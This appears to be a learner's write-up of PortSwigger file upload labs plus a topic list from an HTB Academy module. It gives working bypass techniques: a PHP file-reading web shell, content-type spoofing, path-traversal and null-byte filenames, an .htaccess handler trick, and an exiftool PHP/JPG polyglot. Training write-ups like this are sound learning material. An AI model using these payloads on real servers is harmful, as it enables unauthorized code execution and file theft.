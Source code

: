 It is during our darkest moments that we must focus to see the light. - Aristotle Onassis

# Week into File Upload Vuln Summary:

## Day - 1: Completed Port Swigger - File upload vulnerabilities

Lab 1: Exploiting unrestricted file uploads to deploy a web shell

- cd Desktop - touch try.php - nano try.php
```
<?php
echo file_get_contents('/home/carlos/secret');
?>
```

(https://www.php.net/manual/en/function.file-get-contents.php)

- Navigate to `/files/avatars/try.php`
- Submit the secret - Solved. 

---

Lab 2: Exploiting flawed validation of file uploads

- Using the previous try.php
- Sending the request to repeater
- Changing the content-type to `image/jpeg`
- Navigate to `/files/avatars/try.php`
- Submit the secret - Solved. 


---

Lab 3: Preventing file execution in user-accessible directories

- Using the previous try.php
- Sending the request to repeater
- Changing the filename to `filename="..%2ftry.php"` - Path Traversal. (Indicates that the file was uploaded to a higher directory in the filesystem hierarchy (/files), and subsequently executed by the server.)
- Navigate to `/files/try.php`
- Submit the secret - Solved.

---

Lab 4: Insufficient blacklisting of dangerous file types

- Using the previous try.php
- Sending the request to repeater
- Notice that php ext is restricted.
- Now in this lab to bypass this blacklist - gotta upload below file. 
	- .htaccess with content `AddType application/x-httpd-php .lol` in it. 
	- with the request we had in the repeater with try.php
	- chaning the filename to `.htaccess` and also the content with `AddType application/x-httpd-php .lol`
	- and uploading the same. 
- Back to same request with `try.php` in repeater - changing the filename to `try.lol`
- Notice that the same has been uploaded.
- Navigate to `/files/avatars/try.lol`
- Submit the secret - Solved.

---

Lab 5: Obfuscating file extensions

- Using the previous try.php
- Sending the request to repeater
- Notice that it says only JPG & PNG files are allowed
- Now in order to bypass this:
	- Chaning the filename to `try.php%00.jpg` - adding nullbyte will strip off the rest and try.php will be uploaded.
- Navigate to `/files/avatars/try.php`
- Submit the secret - Solved.

---

Lab 6: Flawed validation of the file's contents

- This is very Interesting lab. In this lab it verifies that if it is a genuine image, hence comes polygot. (Polyglots, in a security context, are files that are a valid form of multiple different file types. - [Vickie li blog](https://vickieli.dev/hacking/polyglot/)) 
- Creating a polyglot PHP/JPG file using exiftool. (normal image, but contains your PHP payload in its metadata.)
	- `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o lmfao.php`
	- Here I downloaded a sample jpg from the internet and used in <YOUR-INPUT-IMAGE>
- Uploaded the lmfao.php
- Navigate to `/files/avatars/lmfao.php`
- Notice the secret is between Start and end in the first line itself
- Submit the secret - Solved.

---

Lab 7: Exploiting file upload race conditions

- Since new to race conditions, simply followed the solution given - also the note in the end of the solution is imp - adding `\r\n\r\n` sequence for GET request. 

---

## Day - 2: [Completed HTB Academy - File upload Attacks Module](https://academy.hackthebox.com/achievement/3444/136)

- I'm not sure if I can share my notes over here, since it's a paid lab [bought it with student subs], but below are the topics I learned - most of them are recap with more info on it. But I do highly suggest you people to go through this module once - pretty neat info. 

- Topics Learned/recaped:
	- Absent Validation
	- Upload Exploitation
		- Web Shell
		- Reverse Shell
	- Client-Side Validation
	- Blacklist Filters: _the web application checks if the extension exists anywhere within the file name._
	- Whitelist Filters: _the web application checks if the file name ends with the extension._
		- Double Extensions
		- Reverse Double Extensions
		- Character Injection
	- Type Filters
	- Decompression Bomb
	- Preventing File Upload Vulnerabilities
		- Extension Validation
		- Content Validation
		- Upload Disclosure
	- Lastly amazing Skills Assessment - Nailed it.

---

	






